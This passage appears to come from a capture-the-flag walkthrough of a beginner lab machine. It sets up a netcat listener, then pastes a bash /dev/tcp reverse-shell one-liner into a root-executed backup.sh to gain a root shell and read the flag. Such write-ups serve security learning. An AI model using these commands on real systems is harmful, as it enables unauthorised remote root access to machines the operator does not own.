 
Okay setup a **listener** on `port 8081` in a new terminal
```
nc -nvlp 8081
Listening on [any] 8081 ... 
```

We have to search for any one liner code online for bash then we can get a reverse shell. 

i found this from [**here**](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```
bash -i >& /dev/tcp/[your ip]/8081 0>&1

```
we will put this code into our `backup.sh` file we got and when that backup.sh keeps on executing we'll get a `reverse shell` of root user

```
nano backup.sh

// Delete lines using CTRL + Kernel
[Paste it here]
```
CTRL + x to save and exit

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/cf3e34f84370b3d8784b64bc250d010a760648ca/Academy/images/shellonroot.png)

And we got a shell!
```
$ cd /root
$ ls
$ cat flag.txt
```
